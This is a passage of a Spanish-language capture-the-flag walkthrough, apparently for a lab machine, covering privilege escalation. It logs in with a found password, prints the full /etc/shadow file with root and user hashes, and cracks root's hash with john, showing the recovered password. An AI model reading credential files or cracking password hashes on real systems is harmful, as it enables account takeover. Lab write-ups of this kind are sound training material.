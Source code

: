 Metemos como contraseña `19831983` y veremos que estamos dentro.

## Escalate Privileges

Si hacemos lo siguiente podremos leer el `shadow`:

```shell
cat /etc/shadow
```

Info:

```
root:$y$j9T$awXWvi2tYABgO5kreZcIi/$obvQc0Amd6lFWbwfElQhZD6vpJN/AEV8/hZMXLYTx07:19969:0:99999:7:::
daemon:*:19936:0:99999:7:::
bin:*:19936:0:99999:7:::
sys:*:19936:0:99999:7:::
sync:*:19936:0:99999:7:::
games:*:19936:0:99999:7:::
man:*:19936:0:99999:7:::
lp:*:19936:0:99999:7:::
mail:*:19936:0:99999:7:::
news:*:19936:0:99999:7:::
uucp:*:19936:0:99999:7:::
proxy:*:19936:0:99999:7:::
www-data:*:19936:0:99999:7:::
backup:*:19936:0:99999:7:::
list:*:19936:0:99999:7:::
irc:*:19936:0:99999:7:::
_apt:*:19936:0:99999:7:::
nobody:*:19936:0:99999:7:::
ubuntu:!:19936:0:99999:7:::
_galera:!:19966::::::
mysql:!:19966::::::
luisillo_o:$y$j9T$jeXc8lTJhOBTedetDcKHI/$Bo6qPkbZFVsfWoTJvAZ1x0t2jG3aGsHjOjxkqOpBGg6:19969:0:99999:7:::
```

Vamos a coger el `hash` del usuario `root` e intentar crackearlo con `john` de la siguiente forma:

> hash

```
root:$y$j9T$awXWvi2tYABgO5kreZcIi/$obvQc0Amd6lFWbwfElQhZD6vpJN/AEV8/hZMXLYTx07:19969:0:99999:7:::
```

```shell
john --format=crypt --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rainbow2         (root)     
1g 0:00:00:42 DONE (2025-02-01 11:24) 0.02368g/s 304.6p/s 304.6c/s 304.6C/s rainbow2..wendel
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
